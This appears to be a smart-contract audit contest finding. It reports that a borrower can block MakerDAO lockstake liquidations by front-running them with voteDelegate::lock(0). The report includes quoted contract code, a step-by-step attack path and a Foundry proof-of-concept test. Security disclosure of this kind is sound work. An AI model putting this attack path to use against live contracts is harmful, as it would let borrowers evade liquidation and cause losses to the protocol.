 Interesting Tiger Mole

Medium

# An attacker can prevent liquidation by using the frontfun voteDelegate::lock() function when their position is being liquidated.

### Summary

voteDelegate::lock() allows setting zero amount, enabling attackers to front-run the liquidation function with this function to block the liquidation.

### Root Cause

And within VoteDelegateLike(voteDelegate).lock(), it calls chief.lock(wad);.
https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/main/vote-delegate/src/VoteDelegate.sol#L85
```javascript
  function lock(uint256 wad) external {
        require(block.number == hatchTrigger || block.number > hatchTrigger + HATCH_SIZE,
                "VoteDelegate/no-lock-during-hatch");
        gov.transferFrom(msg.sender, address(this), wad);
@>        chief.lock(wad);
        stake[msg.sender] += wad;

        emit Lock(msg.sender, wad);
    }

```
In the chief contract, chief.free() cannot be called in the same block as chief.lock().
https://vscode.blockscan.com/ethereum/0x0a3f6849f78076aefaDf113F5BED87720274dDC0
```javascript
function lock(uint wad)
        public
        note
    {
@>        last[msg.sender] = block.number;
        GOV.pull(msg.sender, wad);
        IOU.mint(msg.sender, wad);
        deposits[msg.sender] = add(deposits[msg.sender], wad);
        addWeight(wad, votes[msg.sender]);
    }

    function free(uint wad)
        public
        note
    {
@>        require(block.number > last[msg.sender]);
        deposits[msg.sender] = sub(deposits[msg.sender], wad);
        subWeight(wad, votes[msg.sender]);
        IOU.burn(msg.sender, wad);
        GOV.push(msg.sender, wad);
    }

```
Therefore, calling voteDelegate::lock(0) within the same block results in a revert.
This will cause the liquidation process: Dog::bark() -> LockstakeClipper::kick() -> LockstakeEngine::onKick() to revert.

https://vscode.blockscan.com/ethereum/0x135954d155898D42C90D2a57824C690e0c7BEf1B

https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/main/lockstake/src/LockstakeClipper.sol#L229

```javascript
function kick(
        uint256 tab,  // Debt                   [rad]
        uint256 lot,  // Collateral             [wad]
        address usr,  // Address that will receive any leftover collateral; additionally assumed here to be the liquidated Vault.
        address kpr   // Address that will receive incentives
    ) external auth lock isStopped(1) returns (uint256 id) {
      //-------skip-----
        // Trigger engine liquidation call-back
    @>>    engine.onKick(usr, lot);

        emit Kick(id, top, tab, lot, usr, kpr, coin);
    }
```
https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/main/lockstake/src/LockstakeEngine.sol#L422

```javascript
   function onKick(address urn, uint256 wad) external auth {
        // Urn confiscation happens in Dog contract where ilk vat.gem is sent to the LockstakeClipper
        (uint256 ink,) = vat.urns(ilk, urn);
        uint256 inkBeforeKick = ink + wad;
@>>        _selectVoteDelegate(urn, inkBeforeKick, urnVoteDelegates[urn], address(0));
        _selectFarm(urn, inkBeforeKick, urnFarms[urn], address(0), 0);
        lsmkr.burn(urn, wad);
        urnAuctions[urn]++;
        emit OnKick(urn, wad);
    }
```
Thus, liquidation can be blocked . 

### Internal pre-conditions

_No response_

### External pre-conditions

	1.	The position has borrowed a large amount of DAI, leading to the possibility of liquidation.
	2.	The MKR Oracle price drops, causing the position to meet the conditions for liquidation.

### Attack Path

	1.	Stake a large amount of MKR or NGT.
	2.	Borrow a large amount of DAI.
	3.	The MKR Oracle price drops, causing the position to meet the conditions for liquidation.
	4.	Detect the transaction that initiates the liquidation of the position.
	5.	Front-run the liquidation by calling voteDelegate::lock(0).
	6.	The liquidation fails,
    7.	Repeat steps 4 and 5. making it possible for the position to never be liquidated.

### Impact

This can make the position never be liquidated, causing the Maker protocol to incur losses.

### PoC

```javascript
function testOnKickRevertBecauseFrontrun() public{
         address urn = _urnSetUp(false, false);
        uint256 lsmkrInitialSupply = lsmkr.totalSupply();

       
        
        //Force liquidation
        vm.store(address(pip), bytes32(uint256(1)), bytes32(uint256(0.05 * 10**18))); // Force liquidation
        dss.spotter.poke(ilk);
        assertEq(clip.kicks(), 0);
        assertEq(engine.urnAuctions(urn), 0);
        (,, uint256 hole,) = dss.dog.ilks(ilk);
        uint256 kicked = hole < 2_000 * 10**45 ? 100_000 * 10**18 * hole / (2_000 * 10**45) : 100_000 * 10**18;

        //frontrun bark
        VoteDelegateMock(voteDelegate).lock(0);

        //liquidation bark
        vm.expectEmit(true, true, true, true);
        emit OnKick(urn, kicked);
      uint256   id = dss.dog.bark(ilk, address(urn), address(this));
        assertEq(clip.kicks(), 1);
        assertEq(engine.urnAuctions(urn), 1);

        
    

    }
```

### Mitigation

_No response_